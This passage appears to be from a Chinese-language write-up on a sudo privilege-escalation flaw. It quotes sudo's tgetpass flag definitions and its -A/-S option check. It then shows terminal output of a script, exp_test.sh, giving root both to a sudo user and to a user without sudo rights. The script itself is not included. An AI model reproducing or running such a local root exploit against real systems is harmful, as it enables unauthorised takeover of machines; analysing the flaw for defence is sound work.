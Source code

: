 ```
/*
 * Flags for tgetpass()
 */
#define TGP_NOECHO  0x00        /* turn echo off reading pw (default) */
#define TGP_ECHO    0x01        /* leave echo on when reading passwd */
#define TGP_STDIN   0x02        /* read from stdin, not /dev/tty */
#define TGP_ASKPASS 0x04        /* read from askpass helper program */
#define TGP_MASK    0x08        /* mask user input when reading */
#define TGP_NOECHO_TRY  0x10    /* turn off echo if possible */


```

科普：上面是 tgetpass 各个 flag 的宏定义，其中 ASKPASS 值为 4，STDIN 值为 2，分别对应了 -A 和 -S 选项。

```
 →  507      if (ISSET(tgetpass_flags, TGP_STDIN) && ISSET(tgetpass_flags, TGP_ASKPASS)) {
    508         sudo_warnx(U_("the `-A' and `-S' options may not be used together"));
    509         usage(1);
    510      }


```

3、漏洞复现

使用有 sudo 权限的用户进行测试，成功获取 root 权限。

```
strawberry@ubuntu:~/Desktop$ sh exp_test.sh 
[sudo] password for strawberry: 
Sorry, try again.
Sorry, try again.
sudo: 2 incorrect password attempts
Exploiting!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ubuntu:/home/strawberry/Desktop# id
uid=0(root) gid=1000(strawberry) groups=1000(strawberry),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)


```

使用没有 sudo 权限的 testtest 用户进行测试，成功获取 root 权限。

```
testtest@ubuntu:~$ sh exp_test.sh 
[sudo] password for testtest: 
Sorry, try again.
Sorry, try again.
sudo: 2 incorrect password attempts
Exploiting!
root@ubuntu:/home/testtest# id
uid=0(root) gid=1001(testtest) groups=1001(testtest)


```
